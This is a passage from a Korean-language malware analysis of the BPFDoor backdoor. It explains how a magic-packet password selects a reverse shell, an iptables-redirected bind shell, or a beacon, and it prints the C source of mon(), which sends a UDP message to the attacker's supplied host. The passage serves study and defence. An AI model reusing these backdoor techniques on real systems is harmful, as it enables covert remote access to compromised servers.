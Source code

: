 rc4 대칭키 암호를 사용하여 대칭 키를 생성한다  
암호화에 사용되는 `crypt_ctx`와 복호화에 사용되는 `decrypt_ctx` 두 개의 키가 생성된다  

`logon()` 함수에서 매직 패킷에 포함된 `pass`가 `hash`와 일치하면 0을 반환하여 `shell()` 함수가 실행된다  
`pass`가 `hash2`와 일치한다면 1이 반환되어 `getshell()` 함수가 실행된다  

이 외의 다른 값이 들어올 경우에는 2를 반환하여 `mon()` 함수가 실행된다  
<br>

---

`pass`와 `hash`가 일치하면 포트 개방 없이 공격 받은 서버에서 공격자의 서버로 연결하는 리버스 쉘이 열린다 (아웃바운드)  

`pass`와 `hask2`가 일치하면 포트를 리다이렉트하는 iptables 규칙이 추가되면서 바인딩 쉘이 열린다 (인바운드 - 포트포워딩)  
<br>

---

```c
int mon(in_addr_t ip, unsigned short port)
{
        struct sockaddr_in remote;
        int      sock;
        int      s_len;
 
        bzero(&remote, sizeof(remote));
        if ((sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)) < -1) {
                return -1;
        }
        remote.sin_family = AF_INET;
        remote.sin_port   = port;
        remote.sin_addr.s_addr = ip;
 
        if ((s_len = sendto(sock, "1", 1, 0, (struct sockaddr *)&remote, sizeof(struct sockaddr))) < 0) {
                close(sock);
                return -1;
        }
        close(sock);
        return s_len;
}
```

`mon()` 함수는 매직 패킷에 포함되었던 IP와 포트로 UDP 통신하여 문자열 “1”을 전송한다  
공격자는 이를 통해 BPFDoor가 매직 패킷을 필터링하고 있다는 것을 알 수 있다   
변종에 따라 문자열이 달라지거나 없을 수 있다  
<br>

---

#### shell() 함수

`getshell()` 함수 안에서도 `shell()` 함수가 실행되기 때문에 `shell()` 함수부터 분석한다  

세 개의 인자를 받는데 첫 번째 인자는 소켓 식별자, 두 번째/세 번째 인자로는 시스템 명령어를 받는다  
`shell()` 함수가 실행되면 인자로 받은 두 시스템 명령어를 먼저 실행한다  
(인자로 시스템 명령어가 주어지지 않았을 경우 아무 명령어도 실행하지 않는다)  
